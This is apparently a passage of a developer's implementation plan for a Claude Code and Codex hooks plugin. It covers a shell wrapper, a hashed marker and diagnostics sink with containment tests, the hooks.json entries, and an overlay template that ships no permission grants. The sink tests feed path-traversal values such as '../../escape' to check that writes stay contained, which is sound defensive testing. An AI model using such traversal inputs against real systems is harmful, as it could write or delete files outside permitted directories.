- [ ] **Step 4: Make it executable and run the test**

```bash
chmod 755 hooks/run-hook.sh
uv run pytest tests/hooks/test_wrapper.py -q
```
Expected: PASS, 16 tests (one may skip if this machine has no sub-floor interpreter — if it
skips, say so in the commit message and note that CI pins it through `KEELLINE_OLD_PYTHON`).

- [ ] **Step 5: Document, then commit**

Add to `docs/cli.md` a new `## Hooks` section naming the wrapper, its argv, its five tokens,
and the one row it does not cover: **a wrapper whose executable bit is cleared is not executed
at all, so no policy applies** (Findings → S8 row 6). Name `doctor`'s wrapper probe as the
thing that catches it.

```bash
uv run pytest -q
git add hooks/run-hook.sh tests/hooks/test_wrapper.py docs/cli.md
git commit -m "feat(hooks): the wrapper that owns interpreter probing and exit-code normalisation"
```

- [ ] **Step 6: Prove the two guarantees are load-bearing, and amend**

The oracle refuses to mutate a tree with uncommitted changes, so this runs **after** the
commit. Append to `mutations.toml`:

```toml
[[mutation]]
name = "the wrapper stops refusing under a closed policy"
file = "hooks/run-hook.sh"
before = '  if [ "$policy" = closed ]; then refuse "$1"; fi'
after = '  :'
reddens = [
  "tests/hooks/test_wrapper.py::test_no_interpreter_of_the_floor_version_refuses_under_closed_only",
  "tests/hooks/test_wrapper.py::test_any_other_exit_code_becomes_a_refusal_under_closed",
]

[[mutation]]
name = "the wrapper stops noticing that it has no policy argument"
file = "hooks/run-hook.sh"
before = '[ $# -ge 1 ] || refuse "KL_ARGV no policy argument"'
after = 'policy=open'
reddens = ["tests/hooks/test_wrapper.py::test_no_policy_argument_refuses_with_a_token"]
```

Run: `uv run python scripts/mutation_oracle.py wrapper`
Expected: both caught. **These are predictions.** If either survives, the branch is not what
the tests are measuring; stop and say so rather than adjusting the entry.

```bash
git add mutations.toml && git commit --amend --no-edit
```

---

### Task 2: the durable sink

**Files:**
- Create: `src/keelline/hooks/sink.py`
- Test: `tests/hooks/test_sink.py`

**Interfaces:**
- Consumes: `keelline.hooks.api.Sink` (the Protocol), `keelline.fsops.{write_within,
  remove_within, open_within, UnsafePath}`.
- Produces: `sink_for(session: str | None, env: Mapping[str, str]) -> Sink` — a `DataSink`
  under `${CLAUDE_PLUGIN_DATA}/keelline`, or `NullSink()` when the variable is unset or the
  directory cannot be created; `DataSink.root`, `DataSink.session`; the module constants
  `MARKERS`, `DIAGNOSTICS`, `ROTATED`, `DIAGNOSTIC_FIELD_CHARS`, `DIAGNOSTICS_MAX_BYTES`,
  `MARKER_SESSIONS_KEPT`.

§5.3: markers live under `${CLAUDE_PLUGIN_DATA}/keelline/markers/`, the diagnostics log
carries "event, handler, exception type, a stable reason string — **never raw stdin** —
size-capped and rotated", and `doctor` prints reasons, not payloads. D14 enumerates this as
one of the three places a hook may write.

**Two path segments here are payload-controlled, not one.** The obvious one is the marker
*key*, chosen by a handler. The one an earlier draft missed is the **session**, which is
`payload["session_id"]` off the hook's stdin JSON, type-checked only as `str` by `parse_event`.
Both are hashed, and the whole tree is written through `fsops`' contained walk — two
independent controls, because the failure is not a stray file but a `rmdir`/`unlink` loop
running outside one of the three roots D14 permits. The earlier draft's reason for reaching
past `fsops` ("`${CLAUDE_PLUGIN_DATA}` has no `Config`") does not survive reading the
primitive: `write_within(root, target, text)` takes a root and a relative string and no
`Config` at all, and `mkdirs_within`'s docstring names `hooks-core` as one of the four lanes it
was made public for.

- [ ] **Step 1: Write the failing test**

```python
# tests/hooks/test_sink.py
from __future__ import annotations

import json
import re
from pathlib import Path

from keelline.hooks.api import NullSink
from keelline.hooks.sink import (
    DIAGNOSTICS,
    DIAGNOSTICS_MAX_BYTES,
    MARKERS,
    ROTATED,
    sink_for,
)

HEX32 = re.compile(r"\A[0-9a-f]{32}\Z")


def test_no_plugin_data_means_a_sink_that_forgets() -> None:
    # The ordinary state outside a harness: `keelline hook` run by hand, or by a test. It must
    # degrade, not raise — a sink failure would take the whole dispatch with it.
    assert isinstance(sink_for("s1", {}), NullSink)


def test_a_marker_is_remembered_across_processes(tmp_path: Path) -> None:
    # The whole point: `NullSink.seen()` is always False, so `once_key` means "every
    # invocation" until this exists, and a once-per-context notice fires on every tool call.
    first = sink_for("s1", {"CLAUDE_PLUGIN_DATA": str(tmp_path)})
    assert first.seen("ledger-notes") is False
    first.mark("ledger-notes")
    second = sink_for("s1", {"CLAUDE_PLUGIN_DATA": str(tmp_path)})
    assert second.seen("ledger-notes") is True


def test_a_different_session_does_not_inherit_markers(tmp_path: Path) -> None:
    sink_for("s1", {"CLAUDE_PLUGIN_DATA": str(tmp_path)}).mark("ledger-notes")
    assert sink_for("s2", {"CLAUDE_PLUGIN_DATA": str(tmp_path)}).seen("ledger-notes") is False


def test_a_marker_lands_at_two_hashed_segments_and_nowhere_else(tmp_path: Path) -> None:
    # The POSITIVE shape, asserted rather than "nothing escaped". An earlier draft asserted
    # only that every written path stayed under tmp_path, which holds with the hash deleted:
    # `../../escape` from `<data>/keelline/markers/<session>/` lands back inside `<data>`, just
    # not under `markers/`. All three of its assertions passed with the guard broken.
    data = {"CLAUDE_PLUGIN_DATA": str(tmp_path)}
    sink_for("../../session", data).mark("../../escape")
    markers = tmp_path / "keelline" / MARKERS
    written = [p for p in markers.rglob("*") if p.is_file()]
    assert len(written) == 1
    marker = written[0]
    assert marker.parent.parent == markers
    assert HEX32.match(marker.parent.name) and HEX32.match(marker.name)


def test_a_hostile_segment_never_reaches_the_filesystem_walk(tmp_path: Path) -> None:
    # The backstop under the hash, asserted separately so that removing either control is
    # visible. `fsops._checked` refuses `..`, an absolute path and an empty component by
    # construction, so a future edit that stops hashing cannot silently start traversing.
    data = {"CLAUDE_PLUGIN_DATA": str(tmp_path)}
    sink_for("s1", data).mark("../../escape")
    assert not (tmp_path.parent / "escape").exists()
    assert not (tmp_path / "keelline" / "escape").exists()


def test_a_diagnostic_never_carries_a_payload_verbatim(tmp_path: Path) -> None:
    # §5.3: "never raw stdin". A handler's exception message can quote a repository's bytes, so
    # every FIELD is capped before serialisation — capping the serialised line instead cuts
    # inside whichever field sorts first, and `json.loads` then raises on the record `doctor`
    # is supposed to read.
    sink = sink_for("s1", {"CLAUDE_PLUGIN_DATA": str(tmp_path)})
    sink.diagnostic({"event": "PreToolUse", "handler": "bg-cleanup", "error": "X" * 50_000})
    line = (tmp_path / "keelline" / DIAGNOSTICS).read_text(encoding="utf-8").splitlines()[0]
    record = json.loads(line)
    assert record["handler"] == "bg-cleanup"
    assert len(record["error"]) < 50_000


def test_the_log_is_rotated_rather_than_grown(tmp_path: Path) -> None:
    sink = sink_for("s1", {"CLAUDE_PLUGIN_DATA": str(tmp_path)})
    for _ in range(4_000):
        sink.diagnostic({"event": "PreToolUse", "handler": "bg-cleanup", "error": "Y" * 200})
    live = tmp_path / "keelline" / DIAGNOSTICS
    assert live.stat().st_size <= DIAGNOSTICS_MAX_BYTES
    assert (tmp_path / "keelline" / ROTATED).exists()


def test_old_sessions_are_pruned_and_the_newest_survives(tmp_path: Path) -> None:
    # Sessions are unbounded in number and a marker is worthless once its session ends, so
    # without a prune the directory grows for the life of the machine. The assertion is that
    # the prune keeps the RIGHT ones: a prune that dropped the newest would still bound growth.
    data = {"CLAUDE_PLUGIN_DATA": str(tmp_path)}
    for index in range(60):
        sink_for(f"s{index}", data).mark("k")
    kept = list((tmp_path / "keelline" / MARKERS).iterdir())
    assert len(kept) <= 50
    assert sink_for("s59", data).seen("k") is True


def test_an_unwritable_data_directory_degrades_instead_of_raising(tmp_path: Path) -> None:
    # A hook runs on every tool call; a read-only ${CLAUDE_PLUGIN_DATA} must cost a lost
    # marker, never a refused Bash command.
    blocked = tmp_path / "ro"
    blocked.mkdir(mode=0o500)
    assert isinstance(sink_for("s1", {"CLAUDE_PLUGIN_DATA": str(blocked)}), NullSink)
```

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/hooks/test_sink.py -q`
Expected: FAIL at collection — `ModuleNotFoundError: No module named 'keelline.hooks.sink'`.

- [ ] **Step 3: Write the sink**

```python
# src/keelline/hooks/sink.py
"""Where the dispatcher's markers and diagnostics survive between invocations (§5.3).

Two of the three path segments below are payload-controlled — the marker key a handler chose,
and the session id off the hook's stdin — so both are hashed to a fixed-width hex name, and
every write and removal still goes through `fsops`' `O_NOFOLLOW` walk. Two controls rather
than one, because what runs here is not only a write but a `remove_within` loop, and D14
permits it in exactly one directory.
"""

from __future__ import annotations

import hashlib
import json
import os
from collections.abc import Mapping
from dataclasses import dataclass
from pathlib import Path

from keelline.fsops import UnsafePath, open_within, remove_within, write_within
from keelline.hooks.api import NullSink, Sink

MARKERS = "markers"
DIAGNOSTICS = "diagnostics.jsonl"
ROTATED = "diagnostics.1.jsonl"
# Per FIELD, before serialisation. A record holds a stable reason string, not a payload; 2,000
# characters is generous for that and small enough that a pathological handler cannot fill a
# disk one line at a time. Capping the serialised line instead would cut inside whichever field
# sorts first and leave `doctor` a record it cannot parse.
DIAGNOSTIC_FIELD_CHARS = 2_000
DIAGNOSTICS_MAX_BYTES = 256 * 1024
MARKER_SESSIONS_KEPT = 50


def _segment(value: str) -> str:
    """One payload-controlled string, as one fixed-width path segment.

    `../../escape` as a filename is a write — and a delete — outside the one directory D14
    permits. The hash also fixes the length, so a value of any size costs one short name.
    """
    return hashlib.sha256(value.encode("utf-8")).hexdigest()[:32]


@dataclass(frozen=True)
class DataSink:
    root: Path
    session: str

    def _target(self, key: str) -> str:
        return f"{MARKERS}/{_segment(self.session)}/{_segment(key)}"

    def seen(self, key: str) -> bool:
        return (self.root / self._target(key)).exists()

    def mark(self, key: str) -> None:
        try:
            write_within(self.root, self._target(key), "")
            self._prune()
        except (OSError, UnsafePath):
            return None

    def _prune(self) -> None:
        base = self.root / MARKERS
        try:
            sessions = sorted(
                (path for path in base.iterdir() if path.is_dir()),
                key=lambda path: path.stat().st_mtime,
                reverse=True,
            )
        except OSError:
            return None
        for stale in sessions[MARKER_SESSIONS_KEPT:]:
            for child in stale.iterdir():
                remove_within(self.root, f"{MARKERS}/{stale.name}/{child.name}")
            remove_within(self.root, f"{MARKERS}/{stale.name}")

    def diagnostic(self, record: dict[str, object]) -> None:
        capped = {
            key: str(value)[:DIAGNOSTIC_FIELD_CHARS] if isinstance(value, str) else value
            for key, value in record.items()
        }
        line = json.dumps({"session": self.session, **capped}, default=str, sort_keys=True)
        try:
            with open_within(self.root, DIAGNOSTICS) as (dir_fd, name):
                self._rotate(dir_fd, name, len(line))
                handle = os.open(
                    name,
                    os.O_WRONLY | os.O_APPEND | os.O_CREAT | os.O_NOFOLLOW,
                    0o600,
                    dir_fd=dir_fd,
                )
                try:
                    os.write(handle, (line + "\n").encode("utf-8"))
                finally:
                    os.close(handle)
        except (OSError, UnsafePath):
            return None
```

`_rotate(dir_fd, name, incoming)` stats `name` relative to the descriptor and, when the file
plus the incoming line would exceed `DIAGNOSTICS_MAX_BYTES`, renames it to `ROTATED` with
`os.rename(..., src_dir_fd=dir_fd, dst_dir_fd=dir_fd)`. Both halves stay on the descriptor the
contained walk opened, so the rotation cannot be redirected either.

`sink_for(session, env)` reads `CLAUDE_PLUGIN_DATA` (falling back to `PLUGIN_DATA`, which Codex
sets), returns `NullSink()` when it is unset, and otherwise creates `<data>/keelline`, probes it
with one `write_within` of an empty file, and returns `NullSink()` on any `OSError`. A hook runs
on every tool call, so an unwritable data directory must cost a lost marker rather than a
refused command — which is the degradation `NullSink`'s own docstring already promises.

- [ ] **Step 4: Run the test to verify it passes**

Run: `uv run pytest tests/hooks/test_sink.py -q`
Expected: PASS, 9 tests.

- [ ] **Step 5: Commit, then declare the containment mutation and amend**

```bash
uv run pytest -q
git add src/keelline/hooks/sink.py tests/hooks/test_sink.py
git commit -m "feat(hooks): a durable marker and diagnostics sink inside the contained walk"
```

```toml
[[mutation]]
name = "the sink stops hashing a payload-controlled path segment"
file = "src/keelline/hooks/sink.py"
before = '    return hashlib.sha256(value.encode("utf-8")).hexdigest()[:32]'
after = '    return value'
reddens = [
  "tests/hooks/test_sink.py::test_a_marker_lands_at_two_hashed_segments_and_nowhere_else",
]
```

Run: `uv run python scripts/mutation_oracle.py sink`
Expected: caught — with the value used verbatim, the marker no longer sits two hashed segments
below `markers/` and the `HEX32` assertion fails. Note that `write_within` would *also* refuse
it, which is why the assertion is about the shape rather than about an escape: the second
control must not be able to hide the first one's removal. Then `git commit --amend --no-edit`.

---

### Task 3: wire the sink in, and give the index bundle its one harness branch

**Files:**
- Modify: `src/keelline/hooks/commands.py`, `src/keelline/memory/commands.py`
- Test: `tests/hooks/test_hook_command.py` (extend), `tests/memory/test_commands.py` (extend)

**Interfaces:**
- Consumes: `sink_for` (Task 2), `keelline.hooks.api.detect_harness`.
- Produces: no new API. `keelline hook` gains a durable sink; `keelline memory session-context
  --bundle index` emits nothing unless the harness is Codex.

**This edits an already-merged lane's file**, and it is the smallest of this plan's three such
crossings: one branch, in the one place where the harness is knowable. `bundles.render` is a
library function with no environment; the command is where `os.environ` lives.

The module's existing `hook(event, stdin, cwd)` helper spawns `python -m keelline hook <event>`
with a fixed environment. Widen it in place — `hook(event, stdin, cwd, *args, data: Path | None
= None)`, appending `args` to the argv and setting `CLAUDE_PLUGIN_DATA` when `data` is given —
rather than adding a second spawner beside it; every existing caller keeps its meaning.

- [ ] **Step 1: Write the failing test**

```python
# tests/hooks/test_hook_command.py  (append)
def test_a_once_per_context_handler_really_runs_once(tmp_path: Path) -> None:
    # Before the sink, `NullSink.seen()` was always False and `once_key` meant "every
    # invocation" — a once-per-context notice on every single tool call.
    #
    # The fixture needs a keelline.toml and a PostToolUse payload the notice actually fires on:
    # read `guards/hooks.py` for `test-hygiene`'s once_key and the `tool_input` / `tool_response`
    # shape it requires, and build exactly that. If the notice cannot be made to fire from a
    # payload, report the mismatch — an assertion that both runs emit nothing would pass with
    # the sink deleted.
    data = tmp_path / "data"
    project = _initialised_project(tmp_path)
    payload = _failing_test_run()
    first = hook("PostToolUse", payload, project, data=data)
    second = hook("PostToolUse", payload, project, data=data)
    assert "hygiene" in first.stdout
    assert json.loads(second.stdout)["hookSpecificOutput"].get("additionalContext") is None
```

```python
# tests/memory/test_commands.py  (append)
def test_the_index_bundle_emits_only_under_codex(tmp_path: Path) -> None:
    # Claude Code reads MEMORY.md natively; injecting it again would spend three of the ten
    # capped SessionStart entries on something the harness already has. Codex has no native
    # auto-memory (§9.5), so it is the one that needs it.
    store = _a_store_with_an_index(tmp_path)
    assert _session_context(store, bundle="index", env={"PLUGIN_ROOT": "/p"}) != ""
    assert _session_context(store, bundle="index", env={"CLAUDE_PLUGIN_ROOT": "/p"}) == ""


def test_every_other_bundle_is_harness_neutral(tmp_path: Path) -> None:
    # The branch must be one bundle wide. A harness check that swallowed standing rules on
    # Claude Code would empty the channel the whole store exists for, and the smoke check at
    # the end of this wave would still pass because it runs under Claude Code.
    store = _a_store_with_notes(tmp_path)
    for bundle in ("preset-rules", "standing-rules", "volatile-notes"):
        claude = _session_context(store, bundle=bundle, env={"CLAUDE_PLUGIN_ROOT": "/p"})
        codex = _session_context(store, bundle=bundle, env={"PLUGIN_ROOT": "/p"})
        assert claude == codex != ""
```

- [ ] **Step 2: Run the tests to verify they fail**

Run: `uv run pytest tests/hooks/test_hook_command.py tests/memory/test_commands.py -q`
Expected: FAIL — the once-per-context test emits the notice twice; the index test emits under
both harnesses.

- [ ] **Step 3: Implement**

In `hooks/commands.py`, replace the `NullSink()` call site (**fragment** — one line inside the
existing `try`, not a file):

```python
        outcome = dispatch(event, discover(), config, sink=sink_for(event.session_id), cap=cap)
```

In `memory/commands.py`, inside `run_session_context`, before rendering (**fragment**):

```python
    # §9.5: "On Codex the handler also injects the index, because Codex has no native
    # auto-memory." Here rather than in `bundles.render`, which is a library function with no
    # environment to read; `detect_harness` is the dispatcher's own answer to the same question
    # and keys on the stdin pair `model`/`permission_mode` and on `PLUGIN_ROOT` (S1), never on
    # `CLAUDE_PLUGIN_ROOT`, which Codex also sets.
    if bundle is Bundle.INDEX and detect_harness(os.environ) != "codex":
        return Result(summary="", data={"bundle": bundle.value, "part": part, "skipped": "harness"})
```

- [ ] **Step 4: Run the tests to verify they pass**

Run: `uv run pytest tests/hooks tests/memory -q`
Expected: PASS.

- [ ] **Step 5: Commit**

```bash
uv run pytest -q
git add src/keelline/hooks/commands.py src/keelline/memory/commands.py tests/hooks/test_hook_command.py tests/memory/test_commands.py
git commit -m "feat(hooks,memory): a durable sink for the dispatcher, and the index bundle's one harness branch"
```

---

### Task 4: `hooks/hooks.json`

**Files:**
- Create: `hooks/hooks.json`
- Modify: `pyproject.toml` (`source-include`), `README.md`
- Test: `tests/hooks/test_hooks_json.py`

**Interfaces:**
- Consumes: the wrapper's argv (Task 1), `keelline.memory.bundles.SLOTS`,
  `keelline.hooks.registry.discover`, `keelline.cli.{build_parser, discover_registrars}`.
- Produces: the zero-config file both harnesses read (D2: Codex exports `PLUGIN_ROOT` and
  mirrors it as `CLAUDE_PLUGIN_ROOT`, so one file serves both — confirmed by Findings → S1).

**Thirteen entries, and the arithmetic is the point.** `SLOTS` sums to ten — one
`preset-rules`, three `standing-rules`, three `volatile-notes`, three `index` — so ten
`SessionStart` entries invoke `memory session-context`. One more `SessionStart` entry invokes
`hook SessionStart`, for `worktree-link`, the one registered handler on that event. Then one
`PreToolUse` `Bash` entry (`bg-cleanup`, the plugin's only `closed` handler) and one
`PostToolUse` `Bash` entry (`test-hygiene`). That is thirteen.

**And no entry for an event with no handler.** §5.3's table also lists `UserPromptSubmit`,
`UserPromptExpansion` and `PreToolUse` `Read|Grep|Glob`, and `discover()` returns nothing for
any of them today — the step-zero and ledger-notes handlers belong to lanes this plan does not
ship. An entry with no handler spawns a process on every prompt to emit an empty envelope, and
looks installed in `doctor`'s listing. The lane that adds the handler adds its entry, and Step
1's second assertion is what makes that true in both directions.

- [ ] **Step 1: Write the failing test**

```python
# tests/hooks/test_hooks_json.py
from __future__ import annotations

import json
from pathlib import Path
from typing import Any

from keelline.cli import build_parser, discover_registrars
from keelline.hooks.registry import discover
from keelline.memory.bundles import SLOTS

ROOT = Path(__file__).resolve().parents[2]
HOOKS = json.loads((ROOT / "hooks" / "hooks.json").read_text(encoding="utf-8"))
WRAPPER = '"${CLAUDE_PLUGIN_ROOT}/hooks/run-hook.sh"'


def _entries() -> list[tuple[str, dict[str, Any]]]:
    return [
        (event, entry)
        for event, groups in HOOKS["hooks"].items()
        for group in groups
        for entry in group["hooks"]
    ]


def test_there_are_entries_at_all() -> None:
    # The non-vacuity guard every walk-driven assertion below depends on: an empty `hooks`
    # object satisfies all six of them.
    assert len(_entries()) == 13


def test_every_command_parses_against_the_real_parser() -> None:
    # A shipped file no type checker reads. The failure mode it prevents is the expensive one:
    # a typo here is discovered by a user whose guard silently stopped guarding.
    parser = build_parser(discover_registrars())
    for _, entry in _entries():
        words = entry["command"].split()
        assert words[0] == WRAPPER
        assert words[1] in {"open", "closed"}
        parser.parse_args(words[2:])


def test_no_entry_passes_json() -> None:
    # `bundles.py`'s CAP_MARGIN comment, addressing this lane by name: "the `hooks.json`
    # entries must not pass `--json`. The margin is additive only because `memory
    # session-context` prints the text raw." `memory/commands.py` records that this invariant
    # was "owned by a different lane, asserted by no test here". This is that test.
    for _, entry in _entries():
        assert "--json" not in entry["command"].split()


def test_there_is_one_session_start_entry_per_declared_bundle_slot() -> None:
    # §9.5: a bundle that overflows is split across further entries, and raising N edits this
    # shipped file — so N is asserted from SLOTS rather than counted by hand.
    declared = {
        (words[words.index("--bundle") + 1], words[words.index("--part") + 1])
        for event, entry in _entries()
        if event == "SessionStart" and "--bundle" in (words := entry["command"].split())
    }
    assert declared == {
        (bundle.value, str(part)) for bundle, parts in SLOTS.items() for part in range(1, parts + 1)
    }


def test_every_dispatched_event_has_at_least_one_handler() -> None:
    # An entry for an event nothing handles spawns a process to emit an empty envelope, and
    # looks installed in doctor's listing. §5.3's table names five events; three of them have
    # no handler in this build, and the lane that adds one adds its entry.
    events = {handler.event for handler in discover()}
    for _, entry in _entries():
        words = entry["command"].split()
        if words[2] == "hook":
            assert words[3] in events


def test_every_registered_handler_has_an_entry() -> None:
    # The other direction, and the more expensive one to get wrong: a handler with no entry
    # never runs. If `worktree-link` were the one left out, every bundle in every worktree
    # would be empty and this wave's own smoke check could not see it.
    dispatched = {
        words[3]
        for _, entry in _entries()
        if (words := entry["command"].split())[2] == "hook"
    }
    assert {handler.event for handler in discover()} <= dispatched


def test_only_pre_tool_use_entries_may_be_closed() -> None:
    # D11: fail-closed is expressible only where the platform blocks on exit 2. On
    # SessionStart exit codes are ignored and on UserPromptSubmit exit 2 erases the prompt, so
    # a `closed` entry there is a refusal that either does nothing or destroys the user's input.
    for event, entry in _entries():
        if entry["command"].split()[1] == "closed":
            assert event == "PreToolUse"


def test_no_entry_is_async() -> None:
    # Codex async hooks cannot block (§5.3). Unmeasured by the spikes — which is a reason to
    # hold the line in the file, not a reason to test it against the platform.
    for _, entry in _entries():
        assert entry.get("async") is not True


def test_session_start_entries_declare_the_codex_spill_key() -> None:
    # S1 measured that both harnesses tolerate this key at install time on both events. It also
    # measured NO cap verdict for it: a 20-character canary cannot separate an ignored key from
    # one honoured with 0 meaning unlimited. So it is declared and relied on for nothing — the
    # bound that IS measured is `bundles._cap`'s margin under `hook_output_chars` (S7).
    for event, entry in _entries():
        if event == "SessionStart":
            assert entry.get("additionalContextLimit") == 0
```

- [ ] **Step 2: Run the test to verify it fails**

Run: `uv run pytest tests/hooks/test_hooks_json.py -q`
Expected: FAIL at import — `FileNotFoundError: hooks/hooks.json`.

- [ ] **Step 3: Write the file**

The shape of the three kinds of entry; the other ten copy the first with a different
`--bundle`/`--part` pair.

```json
{
  "hooks": {
    "SessionStart": [
      {
        "matcher": "startup|resume|clear|compact|fork",
        "hooks": [
          {
            "type": "command",
            "timeout": 10,
            "additionalContextLimit": 0,
            "command": "\"${CLAUDE_PLUGIN_ROOT}/hooks/run-hook.sh\" open memory session-context --bundle preset-rules --part 1"
          },
          {
            "type": "command",
            "timeout": 10,
            "additionalContextLimit": 0,
            "command": "\"${CLAUDE_PLUGIN_ROOT}/hooks/run-hook.sh\" open hook SessionStart"
          }
        ]
      }
    ],
    "PreToolUse": [
      {
        "matcher": "Bash",
        "hooks": [
          {
            "type": "command",
            "timeout": 10,
            "command": "\"${CLAUDE_PLUGIN_ROOT}/hooks/run-hook.sh\" closed hook PreToolUse"
          }
        ]
      }
    ]
  }
}
```

**Where the "per-harness emitter" went.** §15.2 lists one for `hooks-core`, and after S1 it
collapses into things this plan already has rather than a module of its own: `hooks.json` is a
single file both harnesses read (Codex mirrors `PLUGIN_ROOT` as `CLAUDE_PLUGIN_ROOT` and reads
the same `.claude-plugin/marketplace.json`), and the one genuinely per-harness decision —
whether to inject the memory index — is Task 3's single branch. Do **not** build an emitter
layer to hold a branch that is one line. If a second per-harness difference appears, it goes
beside the first one and the layer is built when there are three.

One further constraint on the file, from a measurement rather than a preference: do **not**
add `apply_patch` to any matcher. S1 measured that Codex honours the `Edit|Write` aliases for
matching while putting the canonical name on stdin, so a matcher naming the payload's name is
the one that breaks — and no entry in this file matches file edits at all yet.

- [ ] **Step 4: Ship the file in the sdist, and add the README row**

`pyproject.toml`'s `source-include` carries `tests/**`, `scripts/**`, `skills/**`, `agents/**`
and `docs/**`, and not `hooks/**` — so `tests/hooks/test_wrapper.py` and this module cannot
pass from an unpacked sdist, the exact failure that list exists to prevent. Add `hooks/**`,
beside the existing comment that explains why `skills/**` is there.

README's `## Commands` block is walked by `tests/test_documents.py` against the real parser.
This wave registers no new command, so no row is owed — but the pre-1.0 blockquote lists "the
hooks file that wires the guards into a session" among what does not ship, and it does now.
Rewrite that sentence to name what is outstanding *after this wave* — `init`, the overlay, the
adoption state machine — and delete the old list rather than leaving it beside the new one.

- [ ] **Step 5: Run the full gate and commit**

Run the full gate (Global Constraints). The three validator invocations matter here: this is
the first change to what the plugin ships rather than to what the package computes.

```bash
git add hooks/hooks.json tests/hooks/test_hooks_json.py pyproject.toml README.md changelog.d/hooks-core.feature.md
git commit -m "feat(hooks): the zero-config hooks file both harnesses read"
```

**Wave A exit check.** The full gate, plus one manual smoke that costs nothing:

```bash
echo '{"session_id":"x"}' | ./hooks/run-hook.sh open hook SessionStart
./hooks/run-hook.sh open memory session-context --bundle preset-rules --part 1
```

Expected: the first exits 0 with a JSON envelope; the second exits 0 and prints the preset's
standing rules **raw, with no envelope** — which is the shape the whole no-`--json` invariant
is about. If the second is empty, the store did not resolve: read the reason from
`keelline memory fit` before assuming the wiring is wrong.

---
## Wave B — Tasks 5-7: the private overlay (`overlay`)

One implementer, one review round. This wave creates the second of the design's three
artifacts: a public **template** repository, rendered from `templates/overlay/` at each
release, from which the owner's private instance is created. Nothing here is personal — the
template ships deny-only permissions and empty hooks, and a test holds that at release time.

**A standing constraint for this whole wave:** no task may invoke `gh`, `git` or `pre-commit`
from a test. Task 6 introduces the `Runner` seam precisely so that every command this wave
would run against GitHub is asserted as *the argv it would have run*, against a stub. Mocking
`subprocess.run` instead would hide the argv, which is the only part of these calls that can
be wrong in a way a user notices.

### Task 5: the overlay template and its invariant

**Files:**
- Create: `templates/overlay/` (the tree below), `src/keelline/overlay/__init__.py`,
  `src/keelline/overlay/layout.py`, `src/keelline/overlay/api.py`
- Modify: `src/keelline/config/loader.py` (add `preset_defaults`),
  `src/keelline/memory/store.py` and `api.py` (name `projects/` once),
  `pyproject.toml` (`source-include`)
- Test: `tests/overlay/__init__.py`, `tests/overlay/test_template.py`

**Interfaces:**
- Consumes: `keelline.presets.load_preset`, `keelline.scaffold.Template`,
  `keelline.memory.api.{PROJECTS, PROJECT_RECORD, permitted_roots}`.
- Produces: `keelline.overlay.api` exporting `template_root() -> Path`, `OVERLAY_FILES`,
  `PLUGIN_MANIFEST`, `MARKETPLACE_MANIFEST`, `templates() -> list[Template]`, and the layout
  names `COMMON`, `COMMON_RULES`, `COMMON_MEMORY`, `COMMON_CLAUDE`, `COMMON_CODEX`;
  `keelline.config.loader.preset_defaults(project: str) -> Config`.

**Three names this task deliberately does not invent.**

`preset_defaults` is the one addition this plan makes to C1. The scaffold engine needs a
`Config` and reads exactly two things from it — `keelline.profile` and `artifacts.local` — but
an overlay is not a Keelline project and has no `keelline.toml` to load. A constructor that
builds a `Config` from the preset's `[defaults.*]` is what lets the overlay write **through
C2** instead of beside it, and `init --yes` in wave 5 needs the same thing. It has one value
the preset does not carry: `[defaults.keelline]` has no `version`, and the engine stamps
`keelline.version` into every manifest `Record` for `upgrade` and `doctor` to compare against.
Supply `keelline.__version__`, and assert it — a `Record` written with `version = ""` is a
record nothing can compare.

`projects/` is currently a bare literal in `memory/store.py` at two call sites, and this task
would make a third in a second area. That is the drift `store._inside`'s own docstring names
("two spellings of a containment rule is one more place for them to stop agreeing"). Define
`PROJECTS = "projects"` in `memory/store.py` beside `PROJECT_RECORD` and `COMMON`, replace both
literals, export both names from `memory.api`, and import them here. The direction is
memory → overlay, never the reverse: memory is the lower layer and `store.py` resolves this
layout for the hook path.

`template_root()` is a function, not a constant. `templates/` is read at runtime by
`overlay create --local`, so it must resolve the way `scaffold.shipped_profiles()` already
resolves `profiles/` — the installed package first, a checkout second, and never a bare
`Path(__file__).parents[n]`, which answers for a source tree that an installed Keelline does
not have.

- [ ] **Step 1: Write the failing test**

```python
# tests/overlay/test_template.py
from __future__ import annotations

import json
from pathlib import Path

import pytest

from keelline import __version__
from keelline.config.loader import preset_defaults
from keelline.overlay.api import OVERLAY_FILES, template_root, templates
from keelline.presets import load_preset


def _json_files() -> list[Path]:
    return sorted(template_root().rglob("*.json"))


def test_the_template_tree_is_reachable_at_all() -> None:
    # The non-vacuity guard, and it is not hypothetical: `rglob` over a directory that is not
    # in the wheel or the sdist returns nothing, and every assertion below then passes by
    # finding no files to fail on. `tests/test_import_boundary.py` carries the same idiom for
    # the same reason.
    assert template_root().is_dir()
    assert _json_files(), "no JSON in templates/overlay — the invariants below are vacuous"


def test_the_template_ships_no_allow_rule_anywhere() -> None:
    # §12: "Overlay template shipping `allow` rules or hooks → a test over templates/overlay/
    # fails the release." The plugin author may never grant a permission (§3, first row); only
    # the machine owner may, by editing their own instance after it is theirs.
    for path in _json_files():
        assert "allow" not in _keys(json.loads(path.read_text(encoding="utf-8"))), path


def test_the_template_ships_no_hook_entry() -> None:
    # Same row. An overlay hook is the machine owner's to add; one shipped in the template
    # would execute on every machine that created an instance from it.
    for path in _json_files():
        payload = json.loads(path.read_text(encoding="utf-8"))
        if "hooks" in payload:
            assert payload["hooks"] == {}, path


def test_the_preset_grants_nothing_anywhere_in_it() -> None:
    # The same rule for the other shipped file that can carry permissions. An earlier draft
    # asserted `"allow" not in preset["deny"]` — an allow key nested INSIDE the deny table,
    # which nobody writes. §3 forbids an allow rule anywhere in anything the author ships.
    assert "allow" not in _keys(load_preset("recommended"))


def test_the_template_ignores_env_files() -> None:
    # §6.4: the overlay may hold hostnames, user ids and env-file paths; it never holds
    # credentials. This is the cheap half of that promise; gitleaks is the other half.
    assert ".env" in (template_root() / ".gitignore").read_text(encoding="utf-8")


def test_the_template_pins_gitleaks_at_a_revision() -> None:
    # GitHub does not scan private repositories on a personal plan, so gitleaks is the scan.
    # An unpinned rev is a third party choosing what runs on the owner's machine.
    config = (template_root() / ".pre-commit-config.yaml").read_text(encoding="utf-8")
    assert "gitleaks" in config and "rev:" in config


@pytest.mark.parametrize("relative", sorted(OVERLAY_FILES))
def test_every_declared_file_exists(relative: str) -> None:
    # The list and the tree are two statements of one thing, and they drift. Asserting from the
    # list catches a deleted file; the next test catches an undeclared one.
    assert (template_root() / relative).is_file()


def test_no_file_in_the_tree_is_undeclared() -> None:
